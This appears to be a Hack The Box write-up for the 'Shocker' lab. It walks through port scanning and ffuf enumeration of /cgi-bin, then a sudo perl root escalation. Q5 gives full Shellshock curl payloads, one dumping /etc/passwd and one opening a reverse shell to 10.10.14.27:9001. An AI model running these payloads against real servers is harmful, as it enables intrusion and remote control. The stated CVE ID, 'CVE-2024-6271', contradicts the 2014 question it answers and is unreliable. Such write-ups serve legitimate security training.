 ## Shocker 

### Lab Details 

- Difficulty: Easy
- Type: apache cgi, sudo, Priv Esc, Linux
- For more detail on this Lab, recommend to check out HTB Academy - Attacking Common Application - Common Gateway Interfaces module as this module goes in details of how this attack works - FYI


#### Tasks
Q1:How many TCP ports are listening on Shocker?
 - `nmap -sT -T4 -vv -A -p- -oA Shocker 10.10.10.56`, port 80(http) and port 2222 (SSH)
 - refer to `Shocker.nmap` for full details

Q2:What is the name of the directory available on the webserver that is a standard name known for running scripts via the Common Gateway Interface?
 - run ffuf on target we found there is a `/cgi-bin` directory 
```
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .sh            

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 306ms]
    * FUZZ: cgi-bin/

[Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 305ms]
    * FUZZ: index.html

[Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 307ms]
    * FUZZ: server-status

:: Progress: [9228/9228] :: Job [1/1] :: 126 req/sec :: Duration: [0:01:12] :: Errors: 0 ::
```
Q3: What is the name of the script in the cgi-bin directory?
- cgi can be a program or script that is used to fetch dynamic content from server 
- try to enumerate programming files such as .pl .py .sh .cgi 
```
ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .sh 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 309ms]
    * FUZZ: 

[Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 316ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 317ms]
    * FUZZ: .htaccess

[Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 317ms]
    * FUZZ: .hta.sh

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 317ms]
    * FUZZ: .htpasswd.sh

[Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 318ms]
    * FUZZ: .hta

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 318ms]
    * FUZZ: .htaccess.sh

[Status: 200, Size: 118, Words: 18, Lines: 8, Duration: 320ms]
    * FUZZ: user.sh

:: Progress: [9228/9228] :: Job [1/1] :: 127 req/sec :: Duration: [0:01:17] :: Errors: 0 ::
```
Q4:What 2014 CVE ID describes a remote code execution vulnerability in Bash when invoked through Apache CGI?
- search for 2014 Apache CGI 
- CVE-2024-6271

Q5:What user is the webserver running as on Shocker?
- we can try to exploit shellshock by injecting command in User-Agent field in request header
```
$: curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.10.56/cgi-bin/user.sh

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```
- reverse shell below
```
$: curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.27/9001 0>&1' http://10.10.10.56/cgi-bin/user.sh
```
- user is shelly

Q6: Submit the flag located in the shelly user's home directory.
- cat /home/shelly/user.txt

Q7: Which binary can the shelly user can run as root on Shocker?
 - check with `sudo -l`
 - we can run perl as root without password 
 - according to gtfo.bin https://gtfobins.github.io/gtfobins/perl/
 - we can run perl as root to execute bash to gain a root shell
 - `cat /root/root.txt` -> flag




#### Lesson Learned
